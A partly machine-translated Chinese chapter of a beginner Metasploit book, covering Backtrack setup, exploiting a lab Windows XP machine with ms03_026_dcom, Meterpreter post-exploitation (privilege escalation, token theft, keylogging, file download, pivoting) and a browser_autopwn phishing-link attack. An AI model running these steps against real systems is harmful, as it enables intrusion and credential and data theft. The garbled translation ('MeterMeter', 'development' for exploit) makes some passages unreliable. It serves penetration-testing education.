# 一、Metasploit 即时入门

欢迎来到*速释启动机*。这本书专门为您提供了使用 Metasploit 进行设置所需的所有信息。您将学习 Metasploit 的基础知识，开始您的首次成功利用，并发现一些使用 Metasploit 的提示和技巧。本初学者指南包含以下部分：

*那么，什么是 Metasploit*解释了 Metasploit 实际上是什么，你可以用它做什么，以及为什么它如此伟大。

*安装*说明如何以最小的工作量下载和安装 Metasploit。您还将学习如何在短时间内设置它。

*快速入门–您的第一次开发*将向您展示如何执行 Metasploit 的核心任务之一；也就是说，创建攻击，然后攻击目标。按照以下步骤利用目标，这将是 Metasploit 中大部分工作的基础。

*您需要了解的顶级功能*将解释如何使用 Metasploit 最重要的功能执行五项任务。在本节结束时，您将能够轻松利用易受攻击的系统并执行攻击后任务。

*你应该了解的人和地方*为你提供了许多有用的项目页面和论坛链接，以及许多有用的文章、教程、博客和 Metasploit 超级贡献者的 Twitter 提要。

# 那么，什么是 Metasploit？

本节概述了在渗透测试人员的武库中对诸如 Metasploit 之类的框架的需求。但是在我们深入研究框架之前，让我们先了解一下框架是如何演变的。以下是本书中经常使用的一些基本概念：

*   **漏洞**：简单来说，漏洞就是系统中的漏洞。它充当攻击者渗透系统的通道，换句话说，这就是攻击。
*   **利用**：我会递归地将这个术语定义为用于利用易受攻击系统的任何工作代码。
*   **有效载荷**：攻击者有目的地利用系统进行攻击。因此，成功利用后，无论他/她打算对系统做什么，都代表有效载荷。换句话说，有效负载是与攻击捆绑在一起的任何代码片段，用于在攻击后阶段帮助攻击者。

我在一开始就定义了这些术语，因为这些术语在本书中经常使用。

在 IT 行业，我们有各种各样的操作系统，包括 Mac、Windows、*nix 平台和其他服务器操作系统，它们根据组织的需要运行大量的服务。当被赋予评估任何组织的风险因素的任务时，针对这些系统运行单个代码片段变得非常乏味。如果由于某些硬件故障，所有这些代码片段都丢失了怎么办？输入 Metasploit。


Metasploit 是 H.D.Moore 于 2003 年启动的开发框架，后来被 Rapid7 收购。它基本上是一种开发利用漏洞的工具，并在活动目标上测试这些利用漏洞的行为。这个框架完全是用 Ruby 编写的，目前是用 Ruby 语言编写的最大的框架之一。该工具在其存储库中存储了 800 多个漏洞，每个漏洞都有数百个有效负载。它还包含各种编码器，帮助我们混淆漏洞，以逃避防病毒和其他**入侵检测系统**（**IDS**）。随着本书的深入，我们将发现该工具越来越多的特性。

该工具可用于渗透测试、风险评估、漏洞研究和其他安全开发实践，如 IDS 和**入侵预防系统**（**IPS**）。

# 安装

在上一节中，我们简要介绍了 Metasploit 框架。在本节中，我们将了解 Metasploit 框架的系统需求和各种安装模式。

获得 Metasploit 的最简单方法是下载名为 Backtrack 的 Linux 发行版。Backtrack 是一个基于 Linux 的安全发行版，附带内置黑客工具。这些工具范围从信息收集到网络取证。Metasploit 框架属于网络利用类别。Backtrack 本身就包含了这一点，可以直接使用。让我们看看如何做到这一点：

1.  访问网站[http://www.backtrack-linux.org](http://www.backtrack-linux.org) 。在网站的**下载**部分，将最新版本的 Backtrack 下载到您的系统中。在这里，您可以选择 ISO 映像或 VMware 映像。根据需要选择所需的图像，并允许下载完成。
2.  Use a Virtual Workstation such as VMware or Virtual Box to open the image and let the operating system load. The login credentials by default are `root`:`toor`.

    

3.  Once you get the shell prompt, type `startx` to load the GUI of the system. The following screenshot shows the look of the GUI of Backtrack 5:

    

    Metasploit 有多种口味。在本节中，我们将看到如何通过命令行控制台调用 Metasploit 框架。

4.  In your Backtrack system, open the shell by clicking on the terminal icon as shown in the following screenshot:

    

5.  Once the terminal is opened, type the `root@bt:~# msfconsole` command:

    

6.  如前截图所示，我们已经成功启动了`msfconsole`。屏幕截图描述了系统上当前安装的框架版本。这里是 Metasploit4.5。
7.  Metasploit is located in the `/opt/metasploit/msf3` folder under Backtrack 5 R3\. As you can see, under this folder we have the `msfconsole` executable.

    

    Metasploit 不仅有一个命令行界面，还有一个非常用户友好的 GUI，名为**Armitage**。Armitage 是 Metasploit 的一个工具，用于可视化目标，并根据目标的性质智能地推荐漏洞利用。在本节中，我们将了解如何在 Backtrack 中启动 Armitage。

8.  Navigate to Armitage: **Applications** | **Backtrack** |**Exploitation Tools** | **Network Exploitation Tools** | **Metasploit Framework** | **armitage**:

    

9.  将出现一个对话框提示您。点击**确定**并等待 Armitage 加载到您的 GUI 上。不要更改对话框中的任何值。这可能需要相当长的时间来加载，这是预期的。
10.  In the following screenshot, you can see what Armitage—the GUI for Metasploit—looks like. In the subsequent chapters, we will cover how to use the command-line interface of Metasploit as well as the Armitage GUI for performing attacks.

    

    在前面的屏幕截图中，屏幕的上半部分显示了 Metasploit 框架的文件夹结构。屏幕的下半部分显示与 GUI 集成的框架控制台。我们将在接下来的章节中了解如何使用它。

# 快速启动-您的第一次利用！

在*中，什么是 Metasploit？*部分我们已经了解了这个工具的发展，在*安装*部分，我们学习了使用这个强大的开发框架的最快、最简单的方法。现在你已经准备好了 Metaspoit 并开始运行了，是时候让你的手沾污你的第一个动手部分了。在本节中，我们将通过以下两种方法利用易受攻击的 Windows 计算机：

*   使用 Metasploit 命令行界面进行攻击
*   利用 Metasploit GUI–Armitage 进行攻击

## 步骤 1–命令行开发

在虚拟机中加载 backtrack 5 操作系统，然后打开终端。在终端中，执行以下命令：

```
root@bt:~ msfconsole

```

`msfconsole`命令弹出 Metasploit 的命令行界面，如下图所示：



除了回溯，我正在虚拟机工作站中运行易受攻击的 Windows 计算机。让我来定义两个角色：

*   **攻击者**：虚拟机的回溯实例就是攻击者，Metasploit 就是我们的攻击工具
*   **受害者**：在虚拟机上运行的 Windows XP 易受攻击机器的实例就是受害者

众所周知，基于 Windows XP 的系统具有易受攻击的 RPC DCOM 组件，并且容易受到溢出攻击。为了在`metasploit`存储库中搜索此漏洞，我们将在`msf-terminal`中运行以下命令：

```
root@bt:~search dcom

```

`search dcom`命令搜索名称中包含名为`dcom`的子字符串的所有漏洞。以下屏幕截图显示了此搜索的结果：



在结果中，我们看到一个名为`exploit/windows/dcerpc/ms03_026_dcom`的条目。文件夹结构告诉我们在 Metasploit 的文件夹结构上存在漏洞代码的位置。如果我们观察漏洞的名称，我们可以看到它是字母和数字的组合。`ms03`表示将**常见漏洞和暴露**（**CVE**）分配给该漏洞的年份，在本例中，是指 2003 年针对 Microsoft 的漏洞。获得搜索结果后，我们使用以下命令：

```
root@bt:~use exploit/windows/dcerpc/ms03_026_dcom

```

这将立即更改 Metasploit 通用终端以利用特定终端。我们希望进行的任何特定于漏洞利用的更改都在此步骤中完成。在继续执行此步骤之前，我们需要了解此特定攻击可使用哪些选项从攻击者获取值。以下屏幕截图将用于解释：


您可以在前面的屏幕截图中看到，我使用了以下命令：

```
root@bt:~show options

```

`show options`命令显示利用漏洞的所有可用选项。此处，**RPORT**（目标端口）默认设置为 Windows 系统上运行的 RPC 的默认端口。但是，**RHOST**（目标主机）要求我们输入受害者的 IP 地址。我知道受害者的 IP 地址是 192.168.252.132。我使用`set RHOST ipaddress`命令向 Metasploit 提供以下详细信息：

```
root@bt:~set rhost 192.168.253.132

```

接下来，您可以执行`show options`命令查看值并确认。完成所有这些之后，让我们按如下方式执行`exploit`命令：

```
root@bt:~exploit

```

在下面的屏幕截图中，我们看到该漏洞成功地打开了与受害者的`meterpreter`会话：


MeterMeter 会话只不过是攻击者在受害者不知情的情况下执行其攻击后操作的通信通道。有关此主题的更多信息将在*计量器模块*一节中详细介绍。

现在，我们已经使用这个简单的漏洞成功地利用了易受攻击的 XP 系统，让我们了解如何在基于 GUI 的 Armitage 框架上执行类似的攻击。

## 步骤 2–基于 GUI 的开发

我们按照*安装*部分中的说明加载 Armitage 框架。在找到该漏洞的 CVE 编号后，我们仅在搜索输入处进行搜索，如以下屏幕截图所示：


双击漏洞。可以在 UI 上设置攻击设置，这与上一节中所示的运行命令不同。在界面的字段中输入 RHOST 值，勾选**使用反向连接**框。现在，点击**启动**按钮执行攻击。


下面的屏幕截图显示它已成功完成攻击，您可以看到 192.xx.xx.132 系统周围 UI 的差异。您还可以看到，MeterMeter 会话的打开方式与使用命令行开发方法相同。

有了这一点，我们可以从后面的部分继续讨论更高级的主题和一些基于场景的攻击。仪表本身将在一个完整的章节中明确介绍，Armitage 也将作为一个单独的章节介绍。*快速入门–您的第一次利用*部分旨在让您了解这个利用框架。

# 您需要了解的顶级功能

在学习了 Metasploit 框架的基础知识之后，在本节中，我们将了解 Metasploit 的主要功能，并学习一些攻击场景。本节将介绍以下功能的流程：

*   仪表模块
*   在 Metasploit 中使用辅助模块
*   带有辅助模块的客户端攻击

## 仪表模块

在前面的部分中，我们已经看到了如何在 Metasploit 中打开 MeterMeter 会话。但在本节中，我们将详细了解`meterpreter`模块及其命令集的特性。在我们看到工作示例之前，让我们先看看为什么在开发中使用 MeterMeter：

*   它不会在目标系统中创建新进程
*   它在被利用的进程的上下文中运行
*   它一次完成多个任务；也就是说，您不必为每个任务创建单独的请求
*   它支持脚本编写

正如在*快速入门–您的第一次开发*部分中所看到的，让我们看看流量计外壳是什么样子。MeterMeter 允许您提供命令并获得结果。


让我们看看 MeterMeter 下可用的命令列表。可通过在 MeterMeter 命令 shell 中键入`help`来获取这些信息。

此命令的语法如下所示：

```
meterpreter>help

```

以下屏幕截图表示核心命令：


文件系统命令如下所示：


网络命令如下所示：



系统命令如下所示：


用户界面命令如下所示：


其他杂项命令如下所示：


正如您在前面的屏幕截图中所看到的，MeterMeter 有两组与其核心命令集不同的命令集。详情如下:

*   `Stdapi`
*   `Priv`

`Stdapi`命令集包含文件系统命令、网络命令、系统命令和用户界面命令的各种命令。根据漏洞的不同，如果它可以获得更高的权限，则会加载`priv`命令集。默认情况下，`stdapi`命令集和`core`命令集将被加载，而与漏洞攻击获得的权限无关。

让我们从 MeterMeter`stdapi`命令集中查看 route 命令。

语法如下：

```
meterpreter>route [–h] command [args] 

```

在以下屏幕截图中，我们可以看到目标机器上所有路由的列表：


在我们希望添加其他子网和网关的场景中，我们可以使用旋转的概念，其中我们添加了两条路由以优化攻击。以下是管线支持的命令：

```
Add [subnet] [netmask] [gateway]
Delete [subnet] [netmask] [gateway] 
List

```

另一个在数据透视过程中有帮助的命令是端口转发。MeterMeter 支持通过以下命令进行端口转发。

此命令的语法如下所示：

```
meterpreter>portfwd [-h] [add/delete/list] [args]

```

一旦攻击者侵入任何系统，他/她要做的第一件事就是检查他/她访问系统的权限级别。MeterMeter 提供了一个命令，用于在进入系统后计算特权级别。

此命令的语法如下所示：

```
meterpreter>getuid

```

下面的屏幕截图演示了 MeterMeter 中`getuid`的工作。在下面的屏幕截图中，攻击者正在使用`SYSTEM`权限访问系统。在 Windows 环境中，`SYSTEM`权限是可用的最高权限。



假设我们未能以`SYSTEM`用户身份访问系统，但通过管理员成功访问，那么 MeterMeter 为您提供了许多提高访问级别的方法。这称为**权限提升**。命令如下：

*   **语法**：`meterpreter>getsystem`
*   **语法**：`meterpreter>migrate process_id`
*   **语法**：`meterpreter>steal_token process_id`

第一种方法使用 MeterMeter 中的内部过程来获得系统访问权限，而在第二种方法中，我们正在迁移到一个使用`SYSTEM`权限运行的进程。在这种情况下，默认情况下，该漏洞会加载到 Windows 操作系统的任何进程空间中。但是，用户总是有可能通过从 process manager 中删除该进程来清除该进程空间。在这种情况下，明智的做法是迁移到一个通常不被用户触及的进程。这有助于保持对受害者机器的长时间访问。在第三种方法中，我们实际上是在模拟一个作为`SYSTEM`特权进程运行的进程。这被称为通过**代币盗窃**进行的**模拟**。

基本上，Windows 为用户分配一个名为**安全标识符**（**SID**的唯一 ID）。每个线程都持有一个包含特权级别信息的令牌。当一个特定线程临时假定同一系统中另一个进程的身份时，就会模拟令牌。

我们已经在前面的命令中看到了进程 ID 的用法，但是如何获取进程 ID 呢？这正是我将在本节中介绍的内容。Windows 运行各种进程，漏洞本身将在 Windows 系统的进程空间中运行。要列出所有这些进程及其 PID 和权限级别，我们使用以下 meterpter 命令：

```
meterpreter>ps

```

下面的屏幕截图清晰地显示了`ps`命令：



在前面的屏幕截图中，我们列出了 PID。我们可以使用这些 PID 来提升我们的权限。一旦你偷了一个代币，可以使用`Drop_token`命令将其丢弃。

此命令的语法如下所示：

```
meterpreter>drop_token

```

stdapi 集合中另一个有趣的命令是`shell`命令。这将在目标系统中生成一个 shell，使我们能够轻松地在系统中导航。

此命令的语法如下所示：

```
meterpreter>shell

```

以下屏幕截图显示了 shell 命令的用法：


前面的屏幕截图显示我们在目标系统内。所有常用的 windows 命令 shell 脚本，如`dir`、`cd`和`md`都在这里工作。

在简要介绍了系统命令之后，让我们开始学习文件系统命令。文件系统包含一个工作目录。要查找目标系统中的当前工作目录，我们使用以下命令：

```
meterpreter>pwd

```

以下屏幕截图显示了正在运行的命令：


假设您希望在目标系统上搜索不同的文件，那么我们可以使用名为`search`的命令。此命令的语法如下所示：

```
meterpreter> search [-d dir][-r recurse] –f pattern

```

“搜索”命令下的各种可用选项包括：

*   `-d`：这是开始搜索的目录。如果未指定任何内容，则会搜索所有驱动器。
*   `-f`：我们想要寻找的模式。例如，`*.pdf`。
*   `-h`：提供帮助上下文。
*   `-r`：需要递归搜索子目录时使用。默认情况下，此设置为 true。

一旦我们得到了所需的文件，我们就使用`download`命令将其下载到驱动器中。

此命令的语法如下所示：

```
meterpreter>download Full_relative_path

```

到目前为止，我们已经介绍了核心命令、系统命令、网络命令和文件系统命令。`stdapi`命令集的最后一部分是用户界面命令。最常用的命令是`keylogging`命令。这些命令在嗅探用户帐户凭据时非常有效：

*   **语法**：`meterpreter>keyscan_start`
*   **语法**：`meterpreter>keyscan_dump`
*   **语法**：`meterpreter>keyscan_stop`

这是使用此命令的过程。以下屏幕截图解释了正在运行的命令：


仪表与其目标之间的通信通过类型长度值完成。这意味着数据以加密方式传输。这导致了多渠道的沟通。这样做的好处是多个程序可以与攻击者通信。频道的创建如以下屏幕截图所示：


此命令的语法如下所示：

```
meterpreter>execute process_name –c

```

`-c`是指示仪表对输入/输出进行通道传输的参数。当攻击需要我们与多个进程交互时，通道的概念作为攻击者的工具就派上了用场。`close`命令用于退出通道。

## Metasploit 中的辅助模块

辅助模块不是利用漏洞，而是帮助攻击者在笔测试场景中执行各种任务。它包括扫描、拒绝服务攻击和模糊处理。在本节中，我们将探讨此模块。辅助模块分为各种类别，详细说明如下：

*   **Denial of Service** (**DoS**)

    这提供了用于执行拒绝服务攻击的工具列表。

*   **Fuzzers**

    模糊化是另一种帮助确定潜在可利用目标的重要方法。此辅助模块为攻击者提供各种模糊脚本，用于自动攻击。

*   **Gather**

    收集信息是一项极其重要的任务。我们都知道，黑客的周期从信息收集开始，你永远不会有太多关于目标的信息。我们收集的信息越多，我们的攻击就越接近，效率就越高。

*   **Scanner**

    网络扫描遵循信息收集阶段。作为攻击者，将网络布局掌握在手中，以便规划入口和出口点总是有益的。如果我们希望在攻击中包含旋转概念，以深入目标网络，这也会很有帮助。

*   **Spoof**

    欺骗是在目标系统中获得改进权限的一种方法。Metasploit 框架中提供的这些模块帮助我们做到这一点。这些也可以帮助我们在中间人的攻击，欺骗是必不可少的成功攻击。

*   **VOIP**

    如果我们能够嗅到流量，IP 语音设备可以为我们提供非常丰富的信息。此类辅助模块帮助我们轻松利用 VOIP 设备。

*   **Wi-Fi**

    咖啡馆和机场等各种 Wi-Fi 热点为攻击者提供了完美的游乐场。在这些网站上使用互联网的无辜者可以使用这些辅助模块被典当。

前面的列表不仅限于此，而且只是为我们提供了一个想法，即当 Metasploit 用作攻击框架时，如何通过这些额外的工具帮助攻击者，从而为攻击者提供力量。

为了对目标进行简单的 tcp 扫描，我们可以使用以下辅助模块：

*   **语法**：`msf>use auxiliary/scanner/portscan/tcp`
*   **语法**：`auxiliary(tcp)>show options`

前面描述的`show options`命令可用于理解该模块的要求，以便成功执行该模块。


RHOST 是我们需要提供的目标 IP。因此，我们将 RHOST 设置为目标系统 IP，如前几节所述。详细模式默认为 false，如果将其更改为 true，则扫描程序的活动量将以指数方式增加。因此，在下面的屏幕截图中，我们看到 verbose 模式为 false，扫描在前 150 个端口上完成：


假设我们有兴趣找出在网络中运行的主机；做一次 ARP 扫描是值得的，这样我们就可以了解网络中的实时主机。需要在此辅助模块中传递的参数是远程主机、源主机和源主机的 MAC 地址。要指定扫描仪的 IP 范围，请遵循以下语法：

```
auxiliary(tcp)>set RHOSTS 192.x.x.x/y

```

最后一部分中的`x/y`范围通知扫描仪`x`是范围的起始 IP，`y`是范围的结束 IP。这些类似于 Nmap 扫描仪。

辅助模块具有各种脚本，可用于执行信息收集和扫描等外围任务。这些在实时笔测试场景中非常有用。本节证明了 Metasploit 框架的健壮性和可伸缩性，使其成为学习渗透测试基础知识的一站式学习场所。

## 带有辅助模块的客户端攻击

当受害者位于 NAT/防火墙之后时，不可能通过开放端口直接利用系统。在这种情况下，我们需要使用经典的社会工程攻击，通过利用浏览器和插件等其他应用程序来访问系统。在本视频中，我们将看到辅助模块的服务器类别。用于此攻击的模块是 metasploit 提供的经典`browser_autopwn`脚本。

此命令的语法如下所示：

```
msf>use auxiliary/server/browser_autopwn

```

在这种情况下，我们将托管一个恶意服务器，它将等待传入的连接。攻击将通过社交工程以 URL 的形式发送，用户需要在浏览器中打开 URL。我们的服务器预加载一组可用的基于浏览器的漏洞，并等待连接。一旦单击 URL 并建立连接，它就会尝试将各种数据包插入到用户浏览 URL 的浏览器中。反过来，它利用已知的浏览器漏洞，使我们能够完全控制目标系统。

像往常一样，一旦我们进入一个利用模块，我们会检查需要输入的选项。此辅助模块中提供的选项如下：

*   `LHOST`-攻击者机器的 IP 地址
*   `SRVHOST`-通常默认设置为 0.0.0.0
*   `SRVPORT`–攻击者机器上侦听传入连接的本地端口
*   `SSL`-在 true 或 false 之间切换以启用 SSL 连接
*   `SSLcert`-如果托管网页，则可以提供您希望使用的 SSL 证书的路径
*   `SSL version`-默认情况下使用 SSL3
*   `URIPATH`–攻击 URL 格式由`URIPATH`指定

让我们看看，我们需要设置哪些值来执行攻击。如以下屏幕截图所示：



在前面的屏幕截图中，您可以看到详细的设置。我们已经将 SRV 端口设置为 80，这是默认的 HTTP 端口。这将避免受害者对与链接相关的威胁产生任何怀疑。将 URIPATH 设置为`/`也是如此，因为此选项使 URL 成为一个简单的 URL，而不附加乱七八糟的字母。我们还将 LHOST 设置为攻击者机器的 IP，在本例中是我们的机器本身。

这些命令的语法如下所示：

*   `msf auxiliary(browser_autopwn)>set lhost ip_address`
*   `msf auxiliary(browser_autopwn)>set srvport port_number`
*   `msf auxiliary(browser_autopwn)>set URIPATH /`
*   `msf auxiliary(browser_autopwn)>exploit`

一旦我们完成了值的设置，就可以运行`exploit`命令了。下面的屏幕截图显示，利用漏洞服务器通过加载利用漏洞脚本立即准备就绪！



当用户单击浏览器中的链接时，漏洞利用开始工作并为我们执行漏洞利用。在下面的屏幕截图中，您可以看到 MeterMeter 频道已打开，允许我们访问受害者。此攻击是客户端攻击，而不是直接系统攻击。这需要与受害者/目标进行交互，而受害者/目标是攻击的主体。攻击者的社会工程艺术将在这次攻击中进行测试，使受害者点击提供的链接。只有当受害者点击链接时，游戏才会结束。



一旦受害者点击链接，我们就会在屏幕上看到很多活动，如屏幕截图所示：



在前面的屏幕截图中，我们可以看到一些漏洞利用失败了。当我们仔细观察它们时，我们可以看到“firefox”一词出现在它们身上。这意味着用户在非 Firefox 环境中单击了此链接。我已使用 Windows Internet Explorer 演示了此练习。

